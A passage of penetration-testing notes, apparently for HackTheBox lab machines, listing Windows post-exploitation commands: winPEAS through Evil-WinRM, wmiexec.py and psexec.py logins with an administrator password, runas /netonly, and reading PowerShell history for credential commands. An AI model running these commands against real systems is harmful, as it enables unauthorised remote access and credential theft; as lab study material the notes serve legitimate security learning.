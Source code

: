 ```
*Evil-WinRM* PS C:\Users\henry.vinson_adm\appdata\local\temp> Invoke-Binary /opt/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe
...[snip]...
```

This method of running does seem to cache all the output and then dump it once the process is complete, so it can take some patience to wait for output to come

### wmiexec.py

```
wmiexec.py active.htb/administrator:Ticketmaster1968@10.129.75.99
```

### psexec.py

```
psexec.py active.htb/administrator:Ticketmaster1968@10.129.75.99
```

### runas

From a Windows machine in cmd:

```
runas /netonly /user:active.htb\svc_tgs cmd

dir \\10.129.75.99\Users
```

## Check powershell history

```
Evil-WinRM* PS C:\Users\henry.vinson_adm\AppData\Roaming\microsoft\windows\powershell\PSREadline> ls


    Directory: C:\Users\henry.vinson_adm\AppData\Roaming\microsoft\windows\powershell\PSREadline


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       11/10/2020  10:58 AM            458 ConsoleHost_history.txt

*Evil-WinRM* PS C:\Users\henry.vinson_adm\AppData\Roaming\microsoft\windows\powershell\PSREadline> cat ConsoleHost_history.txt
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
```



According to the [docs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level), level of `2` means:
